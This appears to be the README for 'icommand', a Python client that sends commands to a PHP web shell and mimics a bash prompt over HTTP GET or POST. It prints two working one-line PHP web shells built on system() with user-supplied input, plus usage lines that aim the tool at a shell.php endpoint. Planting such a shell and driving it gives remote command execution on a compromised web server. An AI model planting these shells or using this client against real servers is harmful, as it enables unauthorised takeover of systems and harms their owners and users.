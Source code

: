 icommand - command controller for PHP system function
---
### Info: ###
icommand is a command controller for PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI  
It sends requests to the server through urllib/urllib2 [Python][] modules  

* icommand works for **POST** and **GET** requests:
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
* --url is a positional argument withing GET and POST requests:
    - python icommand.py --url http://testserver.com/shell.php?cmd=  
  	- python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd

[Python]: http://www.python.org/download/
* __p.s.__ [Python][] v2.6 or v2.7 is required for running this script.
